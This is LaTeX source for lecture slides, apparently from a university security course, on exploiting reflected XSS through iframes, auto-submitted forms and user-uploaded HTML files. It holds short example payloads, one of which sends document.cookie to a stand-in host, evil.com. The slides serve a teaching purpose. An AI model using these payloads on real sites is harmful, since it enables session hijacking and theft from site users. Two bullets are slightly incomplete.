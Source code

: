     \begin{frame}[fragile,label=reflectXSSExploit2]{exploiting reflected XSS (2)}
\begin{itemize}
    \item iframes:
\begin{verbatim}
<iframe src="https://example.com/?redirect_to= %22%3E%3Cscript%3Enew+Image...">
</iframe>
\end{verbatim}
        \vspace{-.5cm}
        \begin{itemize}
        \item iframe: embed another webpage on webpage
        \item example: office hour calendar on our course webpage
        \end{itemize}
    \item JS can ``click'' links/forms
        \vspace{-.5cm}
\begin{verbatim}
<form action="https://example.com/">...</form>
<script>document.forms[0].submit()</script>
\end{verbatim}
    \end{itemize}
\end{frame}

\begin{frame}{aside embedded content}
    \begin{itemize}
    \item it's 
    \item advertisements --- often loaded from other site
    \item embedded Twitter widget, Youtube videos, etc.
    \item newspaper might use externally hosted comments
    \item JavaScript libraries hosted elsewhere
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=xssUserContent]{XSS and user content}
    \begin{itemize}
    \item XSS makes hosting  really tricky
    \item example: allow users to upload profile pictures
    \item my ``profile picture'' is this ``image'' file:
\begin{verbatim}
<!DOCTYPE html>
<html><body><script>
var image = new Image();
image.src = "https://evil.com/?cookie=" + document.cookie;
</script></body></html>
\end{verbatim}
    \item then I have a webpage with:
\begin{verbatim}
<iframe src="https://example.com/get-picture?user=myusername">
\end{verbatim}
    \end{itemize}
\end{frame}

